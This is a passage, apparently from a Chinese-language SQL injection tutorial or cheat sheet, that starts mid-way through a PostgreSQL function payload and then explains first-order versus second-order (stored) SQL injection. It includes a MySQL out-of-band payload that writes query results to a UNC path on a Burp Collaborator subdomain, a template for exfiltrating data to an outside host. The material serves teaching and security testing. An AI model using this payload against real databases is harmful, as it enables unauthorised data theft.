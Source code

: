 END;
&#36;&#36;language plpgsql security definer;
SELECT f();
**MySQL**
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

## 二阶SQL注入

一阶 SQL 注入出现在应用程序从 HTTP 请求中获取用户输入并在处理该请求的过程中以不安全的方式将输入合并到 SQL 查询中的情况。

在二阶 SQL 注入（也称为存储 SQL 注入）中，应用程序从 HTTP 请求中获取用户输入并将其存储以供将来使用。这通常是通过将输入放入数据库来完成的，但在存储数据的位置不会出现漏洞。稍后，当处理不同的 HTTP 请求时，应用程序会检索存储的数据并以不安全的方式将其合并到 SQL 查询中。

